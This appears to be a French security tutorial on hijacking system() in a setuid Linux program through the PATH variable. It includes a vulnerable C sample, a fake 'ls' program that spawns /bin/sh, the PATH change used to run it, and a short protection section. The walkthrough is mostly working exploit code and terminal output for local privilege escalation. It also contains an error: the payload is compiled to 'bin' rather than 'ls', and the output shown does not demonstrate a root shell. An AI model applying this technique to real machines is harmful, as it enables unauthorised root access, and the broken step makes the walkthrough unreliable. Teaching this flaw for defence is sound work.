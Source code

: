 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    aas@ubuntu:~$ cat vuln.c
    void main()
    {
      system("ls -l");
    }

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    aas@ubuntu:~$ ./vuln
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    aas@ubuntu:~$ cat exploit.c 
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    aas@ubuntu:~$ gcc exploit.c -o bin
    ```

### Modification de $PATH
    `aas@ubuntu:~$ PATH=.:$PATH`


### Execution
    aas@ubuntu:~$ ./vuln 
    $
    
## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

